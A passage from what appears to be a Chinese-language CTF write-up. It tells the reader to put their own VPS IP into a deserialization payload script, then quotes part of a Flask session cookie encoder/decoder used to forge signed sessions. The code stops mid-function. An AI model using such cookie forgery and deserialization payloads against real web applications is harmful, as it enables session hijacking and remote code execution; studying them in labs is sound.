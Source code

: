 ```python
print(b64encode(u).decode())
```

把ip替换成自己的vpsip，执行脚本，拿到反序列化user对象的字符串

伪造session脚本

::: v-pre
```python
""" Flask Session Cookie Decoder/Encoder """
__author__ = 'Wilson Sumanang, Alexandre ZANNI'

# standard imports
import sys
import zlib
from itsdangerous import base64_decode
import ast

# Abstract Base Classes (PEP 3119)
if sys.version_info[0] < 3: # < 3.0
    raise Exception('Must be using at least Python 3')
elif sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    from abc import ABCMeta, abstractmethod
else: # > 3.4
    from abc import ABC, abstractmethod

# Lib for argument parsing
import argparse

# external Imports
from flask.sessions import SecureCookieSessionInterface

class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key


if sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    class FSCM(metaclass=ABCMeta):
        def encode(secret_key, session_cookie_structure):
            """ Encode a Flask session cookie """
            try:
                app = MockApp(secret_key)

                session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)

                return s.dumps(session_cookie_structure)
            except Exception as e:
                return "[Encoding error] {}".format(e)
                raise e


        def decode(session_cookie_value, secret_key=None):
            """ Decode a Flask cookie  """
            try:
                if(secret_key==None):
                    compressed = False
                    payload = session_cookie_value

                    if payload.startswith('.'):
                        compressed = True
```